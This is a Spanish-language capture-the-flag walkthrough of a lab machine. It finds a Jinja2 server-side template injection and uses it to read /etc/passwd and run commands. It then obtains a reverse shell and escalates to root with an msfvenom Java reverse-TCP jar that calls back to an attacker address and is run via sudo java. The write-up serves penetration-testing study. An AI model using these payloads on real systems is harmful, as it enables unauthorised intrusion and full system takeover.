- Tags: #STTI #jinja2 #python #java 
____
comenzamos la maquina con el escaneo típico de nmap donde veremos que puertos están activos, para después poder comprobar su servicio y versión.
_____

____
tenemos un solo puerto abierto el cual esta levantado un servicio web.
____

_______
parece ser un formulario de registro, ingresemos los datos y veamos que nos devuelve.
_____

______
nos devuelve el nombre que le colocamos, por ahora vamos a dejar esta parte de la maquina por aquí y apliquemos fuzzing para ver que encontramos.
____

___
encontramos otro directorio al cual si accedemos tenemos lo siguiente.
____

_____
nos pide un ping para poder acceder a la consola, y si vemos el código fuente veremos lo siguiente.
______

______
pero aun así no tenemos nada solido por lo que vayamos de nuevo al formulario.
____

_____
colocaremos una etiqueta h1 de html y veremos como lo interpreta.
_____

_____
vemos que en efecto se interpreta por lo que nos podemos estar enfrentado a un SSTI, el siguiente paso sera identificar el tipo de plantilla.

Según el lenguaje de programación backend, existen distintos tipos de plantillas web, como Jinja2 (Python), Twig (PHP) y FreeMarker (Java).

aplicaremos payloads de forma manual para ver a cual nos enfrentamos, y comenzaremos con jinja2.

podemos colocar {{7x7}} en el imput de usuario y ver que nos devuelve.
_____

_____
los errores serán nuestra guía en muchas ocasiones, en este caso se nos revelo que jinja2 es el tipo de plantilla que utiliza la web.

por lo que ahora podemos buscar payloads mas específicos para este tipo de plantilla.

utilizaremos PayloadsAllTheThings en el apartado de Server Side Template Injection e iremos probando payloads.

```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

tenemos el siguiente payload que nos permite el Read Remote File del fichero passwd
____

______
también tenemos ejecución remota de comando.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

_____

______
por lo que ahora elaboraremos la reverse shell para poder así ganar acceso a la maquina victima.
____

______
de esta forma nos enviamos una reverse shell y accedemos al sistema.

ahora lo que debemos hacer es aplicar el tratamiento de la tty y buscar formas de escalar privilegios.
____

____
podemos ejecutar java como root sin proporcionar contraseña.

lo que haremos es lo siguiente:

con msfvenom crearemos el payload de la siguiente forma.

```shell
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.102 LPORT=443 -f jar -o shell.jar
```

cuando lo tengamos debemos subirlo a la maquina, yo utilice un servidor con python para servir el archivo y utilice curl del lado de la maquina victima para descargarlos.

```python
python3 -m http.server 80
```

para descargar el archivo utilizaremos curl

```bash
curl http://192.168.1.2:8000/archivo.txt -o archivo.txt
```

____

_____
ahora debemos ponernos a la escucha con netcat en otro puerto puesto que el payload es una reverse shell la cual sera ejecutada como root.

ya por ultimo ejecutamos el siguiente comando.

```bash
sudo /usr/bin/java -jar /tmp/shell.jar
```

y así lograremos ganar acceso a la maquina.
____

